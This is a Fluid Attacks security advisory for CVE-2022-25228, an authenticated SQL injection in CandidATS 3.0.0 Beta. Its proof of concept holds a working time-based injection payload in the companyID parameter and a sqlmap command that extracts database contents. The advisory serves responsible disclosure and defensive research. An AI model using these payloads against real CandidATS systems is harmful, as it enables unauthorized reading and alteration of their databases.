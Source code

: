 ```yaml
---
slug: advisories/jackson/
title: CandidATS 3.0.0 - Authenticated SQL Injection
authors: Oscar Uribe
writer: ouribe
codename: jackson
product: CandidATS Version 3.0.0 Beta (Pilava Beta)
date: 2022-04-20 10:00 COT
cveid: CVE-2022-25228
severity: 6.3
description: CandidATS Version 3.0.0 - Authenticated SQL Injection
keywords: Fluid Attacks, Security, Vulnerabilities, Candidats, SQLi
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                          |
| --------------------- | -------------------------------------------------------- |
| **Name**              | CandidATS 3.0.0 - Authenticated SQL Injection            |
| **Code name**         | [Jackson](https://en.wikipedia.org/wiki/Michael_Jackson) |
| **Product**           | CandidATS                                                |
| **Affected versions** | Version 3.0.0 Beta (Pilava Beta)                         |
| **State**             | Public                                                   |
| **Release date**      | 2022-07-19                                               |

## Vulnerability

|                       |                                                                                  |
| --------------------- | -------------------------------------------------------------------------------- |
| **Kind**              | SQL injection                                                                    |
| **Rule**              | [146. SQL injection](https://docs.fluidattacks.com/criteria/vulnerabilities/146) |
| **Remote**            | Yes                                                                              |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:L                                     |
| **CVSSv3 Base Score** | 6.3                                                                              |
| **Exploit available** | No                                                                               |
| **CVE ID(s)**         | [CVE-2022-25228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25228)  |

## Description

CandidATS Version 3.0.0 Beta allows an authenticated user to inject SQL
queries in `/index.php?m=settings&a=show` via the `userID` parameter,
in `/index.php?m=candidates&a=show` via the `candidateID`,
in `/index.php?m=joborders&a=show` via the `jobOrderID`
and `/index.php?m=companies&a=show` via the `companyID` parameter

## Proof of Concept

1. Log in to CandidATS with a user who has permissions
   to read job orders, candidates or companies.

2. Go to `index.php?m=joborders` (or any of the option above).

3. Uncheck the `Only My Companies` option.

4. Select any of the items listed and
   intercept the request with BurpSuite.

5. It is possible to inject sql sentences inside
   the companyID parameter, for example, the following
   request will make the database sleep for 5 seconds.

  ```http
  GET /candidATS/index.php?m=companies&a=show&companyID=2+or+sleep(5) HTTP/1.1
  ```

6. Save the intercepted request into a file.

  ```http
  GET /candidATS/index.php?m=companies&a=show&companyID=2 HTTP/1.1
  Host: 172.16.28.136
  User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Connection: close
  Cookie: CATS=dji5p76l4ajdpubegkt552ma9n
  Upgrade-Insecure-Requests: 1
  ```

7. Run the following command from sqlmap in order
   to extract information from the database.

  ```bash
  $ sqlmap -r companyId.req -p companyID --dbs --batch
  ```

## Exploit

It is possible to use sqlmap in order to
extract information from the database

## Mitigation

This information will be released later according to our
[Responsible Disclosure Policy](../policy/).

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of Fluid Attacks.

## References

**Vendor page** <https://candidats.net/forums/>

## Timeline

<time-lapse
  discovered="2022-04-19"
  contacted="2022-04-19"
  replied="2022-04-20"
  confirmed="2022-04-20"
  patched=""
  disclosure="2022-07-19">
</time-lapse>

